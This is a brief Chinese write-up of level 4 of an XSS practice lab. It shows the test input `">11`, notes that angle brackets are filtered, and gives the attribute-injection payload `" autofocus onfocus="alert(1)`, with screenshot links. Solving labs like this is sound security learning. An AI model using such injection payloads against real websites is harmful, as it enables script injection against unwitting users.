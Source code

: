 # level4

level4.php?keyword=try%20harder!

如之前几关一样，还是搜索框

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1603159075528-52a15b44-caca-4d28-97b4-0f6018bd0589.png)

level4.php?keyword=">11

经过测试是双引号闭合，尖括号被过滤

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1603159406707-7512613a-942f-4583-acb3-bfdad308db21.png)

level4.php?keyword=" autofocus onfocus="alert(1)

上一关的解决方法改个双引号还可以用

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1603159520127-800a10ef-d777-4628-9ab8-cf2cc8fc72f0.png)